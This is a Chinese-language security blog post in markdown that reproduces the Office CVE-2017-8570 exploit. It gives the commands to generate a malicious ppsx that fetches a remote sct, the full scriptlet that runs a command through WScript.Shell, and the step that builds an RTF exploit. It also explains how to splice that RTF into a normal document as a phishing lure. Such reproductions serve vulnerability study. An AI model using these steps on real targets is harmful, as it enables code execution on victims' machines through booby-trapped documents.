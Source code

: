 ```yaml
---
title: "Office CVE-2017-8570 复现"
date: 2019-08-01T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['office']
categories: ['漏洞复现']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



漏洞原理移步 [SeeBug](https://paper.seebug.org/520).

环境 Windows 7, Office 2010.

<!--more-->

## 说在前面

[FreeBuf](https://www.freebuf.com/news/143685.html)

CVE-2017-0199 的另一种利用方式, 通过 sct 文件执行命令, 弥补了之前系统默认禁用 hta 执行 ActiveX 的缺陷, 不过这种方式只能通过 ppsx 文件利用.

生成文档.

```
cve-2017-0199_toolkit.py -M gen -t ppsx -w test.ppsx -u http://192.168.1.1/calc.sct
```

sct 内容.

```
<?XML version="1.0"?>
<scriptlet>
<registration
    description="fjzmpcjvqp"
    progid="fjzmpcjvqp"
    version="1.00"
    classid="{204774CF-D251-4F02-855B-2BE70585184B}"
    remotable="true"
>
</registration>
<script language="JScript">
<![CDATA[
		var r = new ActiveXObject("WScript.Shell").Run("calc.exe");
]]>
</script>
</scriptlet>
```

当然, 文件也能够更改为 .ppt 后缀, 但就要等到播放幻灯片的时候才能够执行 Payload.

ppt 后缀的缺点是会有一个图标, 如果直接双击它也是会执行 Payload 的.

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20190801144721.png)

可使用图片覆盖.

## 复现过程

[rxwx/CVE-2017-8570](https://github.com/rxwx/CVE-2017-8570)

复现时不需要搭建服务器, 直接合成 sct 就行, 这就是它和 CVE-2017-0199 最大的不同 :)

注意该漏洞只能通过 rtf 文件执行 (无法更改为 .doc 后缀).

生成文档 (sct 上文已提供).

```
packager_composite_moniker.py -s calc.sct -o test.rtf
```

打开文档.

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20190801145550.png)

在我这里它执行了两次.

但点击 "是" 之后 Word 会崩溃.

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20190801145710.png)

实际测试中发现在 Office 2010 更改文档内容后程序会停止运行, 而在高版本 Office 中更改后无法执行 Payload.

那么如何自定义我们的文档呢?

## 改进载荷

其实 rtf 这种格式不像一般的 doc docx 文档, 它是完全可读的, 也就是说, 我们可以通过手动编辑的方式将多个 rtf 文档合并到一起, 最后将合并后的 rtf 文档作为 Payload 去执行.

不过多个 rtf 的合并是按行而不是按页进行的, 所以在编辑钓鱼文档的时候可能就要多写一些内容.

新建文档 `helloworld.rtf`, 在里面任意编辑内容并保存.

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20190801152047.png)

使用编辑器打开之前生成的 rtf 文档, 复制其中的文本.

再使用编辑器打开 `helloworld.rtf`, 将其复制到末尾的如下位置并保存.

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20190801152651.png)

打开文档.

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20190801152902.png)

成功执行 (警告框未截图).